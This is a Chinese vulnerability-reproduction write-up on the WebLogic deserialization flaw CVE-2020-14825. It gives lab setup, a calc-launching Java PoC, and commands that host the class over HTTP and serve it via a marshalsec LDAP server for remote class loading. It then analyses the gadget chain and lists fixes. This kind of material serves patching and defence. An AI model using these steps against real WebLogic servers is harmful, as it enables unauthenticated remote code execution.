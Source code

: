 # （CVE-2020-14825）Weblogic反序列化漏洞



## 0x01 简介





Weblogic是美国Oracle公司出品的一个Application Server，确切的说是一个基于JavaEE架构的中间件，Weblogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。



## 0x02 漏洞概述





 **漏洞编号CVE-2020-14825**

Oracle官方在2020年10月份发布的最新安全补丁中修复了许多安全漏洞，其中黑名单类oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor可造成反序列化漏洞。该漏洞允许未经身份验证的攻击者通过IIOP，T3进行网络访问，未经身份验证的攻击者成功利用此漏洞可能接管Oracle Weblogic Server。



## 0x03 影响版本





Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0



## 0x04 环境搭建





由于之前复现[CVE-2020-14645](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247485197&idx=1&sn=5d6b3cb8e5315b1b6672ddc00c68898b&chksm=903921fda74ea8eb0b2418889aff4955ede0451f7007ce490aa72959922f42495adc1c934905&scene=21#wechat_redirect)漏洞时已经搭建完成，因此在此不过多阐述过程，仅记录一些信息。



**Weblogic下载链接：**

https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html



![image-20200928152012609.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405928.png)



选择 12.2.1.4 的 Generic 版本进行下载安装即可，安装过程注意JDK版本造成的安装失败（建议JDK 1.8）以及以管理员权限运行安装包。具体安装过程可参照这两篇文章：

```
http://www.quiee.com.cn/courses/qui/370984-1429262936779670.html
https://www.cnblogs.com/xdp-gacl/p/4140683.html
```



此外，安装过程中，为方便后续其他漏洞利用，安装类型可选择“含示例的完整安装”。



安装完之后，直接运行安装目录下的启动脚本即可，路径结构如下：



```
$Oracle_Home$\12.2.1.4.0\user_projects\domains\wl_server\startWebLogic.cmd
// Oracle_Home指WebLogic安装的绝对路径
```



启动脚本后，浏览器访问

http://127.0.0.1:7001/console



![image-20200928162057678.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405918.png)



正常显示控制台登录界面，即代表安装成功。



## 0x05 漏洞复现





1、编译poc文件并通过python部署在http服务器，poc文件如下：

```
public class exp{
    // POC open calc
    public exp(){
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        exp e = new exp();
    }
}
```



将编译产生的 class 文件部署在 python 起的 http 服务器



```
//python3
$python -m http.server 80
```



2、启动 ldap 服务链接到 poc 文件



```
$java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://192.168.247.128/#Poc 1389
```



3、运行 payload 文件生成反序列化数据文件，通过t3协议传输



**payload 文件见：**

https://github.com/rufherg/WebLogic_Basic_Poc/blob/master/poc/CVE_2020_14825.java



**python T3 脚本见：**

https://github.com/rufherg/WebLogic_Basic_Poc



![image-20201022173453768.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405673.png)



## 0x06 漏洞分析





这个漏洞实质上跟 CVE-2020-14645 并无太大差别，前半段的利用链入口是一致的，只不过最后造成代码执行的类不一样。CVE-2020-14645 用的类为`com.tangosol.util.extractor.UniversalExtractor`，而 CVE-2020-14825 用的类是`oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor`。



![image-20201022190115980.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405892.png)



从调用栈来看，前半部分即是 CC4 链的入口，此部分网上有很多深入分析的文章，此处不再阐述。重点来关注`LockVersionExtractor`这个类，观察其`extract`方法。



![image-20201022201756045.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405878.png)



重点关注图上红框的方法，先来看`this.accessor`的来源。



![image-20201022192841513.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405897.png)



构造方法中可以指定`accessor`，然后在`extract`方法中会依次调用其`initializeAttributes`和`getAttributeValueFromObject`方法。那么我们需要找到一个符合条件的`Accessor`类，并且其`initializeAttributes`或`getAttributeValueFromObject`方法中存在可恶意利用的部分。这里我们寻找到`MethodAttributeAccessor`这个类，在其`getAttributeValueFromObject`方法中存在恶意利用的部分。



![image-20201022194155090.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406348.png)



但此处由于`extract`方法中的调用参数只有`arg0`，即`parameters`为`null`，因此我们只能寻找无参的利用方法。



![image-20201022195204006.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405764.png)



![image-20201022203150747.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406031.png)



方法名可以通过直接调用`setGetMethod`方法设置，但是这个属性值是经过`transient`修饰的。所以我们只能从`setGetMethod`方法入手，看看哪里还调用了这个方法。



![image-20201022203447643.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406070.png)



恰巧在其`initializeAttributes`方法有一处调用了`setGetMethod`方法，但是注意需要给父类`AttributeAccessor`的`attributeName`属性赋值，否则将抛出异常。接下来跟进`Helper.getDeclaredMethod`方法进行分析。



![image-20201022205322460.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405981.png)



大致就是根据传入的方法是否私有，然后进行不同的处理，最终返回所需的`Method`对象。所以我们只要通过`setGetMethodName`方法设置`this.getMethodName`属性值，但是需要注意的是，我们需要令`this.isWriteOnly()`返回`true`，否则将会覆盖我们上面设置的方法。可以通过`setIsWriteOnly`方法设置`this.isWriteOnly`为`true`。



至此，我们可以通过反序列化已经可以调用任意类的无参方法。很容易联想到 CVE-2020-14645 和 fastjson 的利用方式，即通过`JdbcRowSetImpl`进行 JNDI 注入。其`connect`方法中调用了`lookup`方法，并且`DataSourceName`是可控的，因此存在JNDI注入漏洞，看看有哪些地方调用了`connect`方法。



![image-20200802012358277.png](.resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406007.png)



由于`setAutoCommit`不是无参方法，因此使用`getDatabaseMetaData`方法进行利用。



**0x07 修复方式**





1、安装官方补丁

https://www.oracle.com/security-alerts/cpuoct2020.html



2、限制T3访问来源

漏洞产生于WebLogic默认启用的T3协议，因此可通过限制T3访问来源来阻止攻击。



3、禁用IIOP协议

可以查看下面官方文章进行关闭IIOP协议。

https://docs.oracle.com/middleware/1213/wls/WLACH/taskhelp/channels/EnableAndConfigureIIOP.html



**0x08 总结**



实质上，这个洞也是一种类比思路产生，从2555到2883，再到14645然后到14825。不断在跟黑名单博弈，利用链前半段依旧不变，一直在找可以替代的Extractor。在平时的一些挖洞上，类比思路是一个很好的技巧，比起全盘代码审计，显得更加高效。在不断的漏洞复现中，需要学会总结中其中存在的共性，并将其转化为自己的经验技巧，用于平时的漏洞挖掘又或者从甲方的角度去思考如何真正有效的防御。



```
参考链接：
```

https://www.oracle.com/security-alerts/cpuoct2020.html
https://github.com/mbechler/marshalsec
https://github.com/rufherg/WebLogic_Basic_Poc